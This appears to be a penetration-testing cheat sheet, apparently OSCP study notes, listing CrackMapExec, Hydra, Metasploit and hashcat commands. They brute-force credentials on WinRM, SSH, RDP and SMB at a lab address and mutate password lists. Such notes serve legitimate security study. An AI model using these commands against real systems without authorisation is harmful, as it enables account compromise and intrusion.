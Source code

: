 # Network Services

### WinRM

**CrackMapExec**

```shell-session
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

eg.

```shell-session
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

### SSH

**Hydra - SSH**

```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

### Remote Desktop Protocol (RDP)

**Hydra - RDP**

```shell-session
hydra -L user.list -P password.list rdp://10.129.42.197
```

### SMB

**Hydra - SMB**

```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```

> using hydra in some cases we might get an&#x20;
>
> ```shell-session
> [ERROR] invalid reply from target smb://10.129.42.197:445/
> ```
>
> error. We can solve this by updating our `hydra` or use another tool for this purpose.

<mark style="color:red;">**Metasploit Framework (Allowed only once in OSCP so use it wisely)**</mark>

```shell-session
msf6 > use auxiliary/scanner/smb/smb_login
```

> After cracking successfully we can access the SMB share via `CrackMapExec` or `smbclient`.

### Mutating passwords

```shell-session
 hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```







